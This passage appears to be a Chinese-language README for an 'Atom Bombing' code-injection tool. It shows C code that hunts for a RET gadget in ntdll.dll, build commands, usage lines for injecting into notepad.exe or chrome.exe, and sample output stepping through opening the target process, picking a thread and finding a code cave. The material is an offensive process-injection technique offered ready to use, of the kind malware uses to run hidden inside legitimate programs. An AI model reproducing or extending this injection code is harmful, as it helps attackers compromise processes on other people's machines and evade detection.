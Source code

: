 ### 查找 RET Gadget

```c
PVOID FindRetGadget() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    PIMAGE_SECTION_HEADER textSection = FindSection(hNtdll, ".text");

    // 在 .text 节中查找 0xC3 (RET 指令)
    BYTE *start = (BYTE *)hNtdll + textSection->VirtualAddress;
    for (DWORD i = 0; i < textSection->SizeOfRawData; i++) {
        if (start[i] == 0xC3) {
            return (PVOID)(start + i);
        }
    }

    return NULL;
}
```

## 编译和使用

### 编译

**Windows (CMD):**
```batch
build.bat
```

**Linux/MSYS (Bash):**
```bash
chmod +x build.sh
./build.sh
```

### 使用方法

```bash
# 基本用法
build\atom_bombing.exe <进程名>

# 示例：注入到 notepad.exe
build\atom_bombing.exe notepad.exe

# 示例：注入到 chrome.exe
build\atom_bombing.exe chrome.exe
```

### 输出示例

```
========================================
  Atom Bombing
  全局 Atom 表代码注入
========================================

[*] 查找进程: notepad.exe
[+] 找到进程: PID = 1234

[*] 步骤 1: 打开目标进程 (PID: 1234)
[*] 步骤 2: 枚举进程线程
[+] 找到 3 个线程，选择第一个线程

[*] 步骤 3: 查找代码洞
[+] 代码洞地址: 0x00007FFD12340000

```